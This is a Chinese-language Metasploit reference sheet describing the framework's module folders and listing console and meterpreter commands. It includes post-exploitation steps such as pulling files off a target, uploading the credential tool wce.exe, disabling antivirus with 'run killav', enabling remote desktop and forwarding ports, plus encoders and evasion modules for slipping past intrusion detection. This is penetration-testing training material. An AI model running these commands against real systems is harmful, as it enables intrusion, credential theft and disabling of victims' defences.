 #### modules目录

auxiliary: 辅助模块, 辅助渗透 (端口扫描、登录密码爆破、漏洞验证等)

exploits: 漏洞利用模块, 包含主流的漏洞利用脚本, 通常是对某些可能存在漏洞的目标进行漏洞利用。命名规则: 操作系统/各种应用协议分类

payloads: 攻击载荷, 主要是攻击成功后在目标机器执行的代码, 比如反弹shell的代码

post: 后渗透阶段模块, 漏洞利用成功获得meterpreter之后, 向目标发送的一些功能性指令, 如: 提权等

encoders: 编码器模块, 主要包含各种编码工具, 对payload进行编码加密, 以便绕过入侵检测和过滤系统

evasion: 躲避模块, 用来生成免杀payload

nops: 由于IDS/IPS会检查数据包中不规则的数据, 在某些情况下, 比如针对溢出攻击, 某些特殊滑行字符串 (NOPS x90x90...) 则会因为被拦截而导致攻击失效。

### 常用命令

show exploits – 查看所有可用的渗透攻击程序代码
show auxiliary – 查看所有可用的辅助攻击工具
[show]options/advanced – 查看该模块可用选项
show payloads – 查看该模块适用的所有载荷代码
show targets - 查看该模块适用的攻击目标类型
search - 根据关键字搜索某模块
info – 显示某模块的详细信息
use - 使用某渗透攻击模块
back - 回退
set/unset - 设置/禁用模块中的某个参数
setg/unsetg - 设置/禁用适用于所有模块的全局参数
save - 将当前设置值保存下来,以便下次启动MSF终端时仍可使用

### meterpreter

meterpreter > background 放回后台
meterpreter > exit 关闭会话
meterpreter > help 帮助信息
meterpreter > sysinfo系统平台信息
meterpreter > screenshot 屏幕截取
meterpreter > shell 命令行shell (exit退出)
meterpreter > getlwd 查看本地目录
meterpreter > Icd 切换本地目录
meterpreter > getwd 查看目录
meterpreter > Is 查看文件目录列表
meterpreter > cd 切换目录
meterpreter > rm 删除文件

meterpreter > download C:\\1.txt 1.txt 下载文件
meterpreter > upload /var/www/wce.exe wce.exe 上传文件
meterpreter > search -d c: -f*.doc 搜索文件
meterpreter > execute -f cmd.exe -i 执行程序/命令
meterpreter > ps 查看进程
meterpreter > getuid 查看当前用户权限
meterpreter > run killav 关闭杀毒软件
meterpreter > run getgui-e 启用远程桌面
meterpreter > portfwd add -I 1234 -p 3389 -r <目标IP> 端口转发
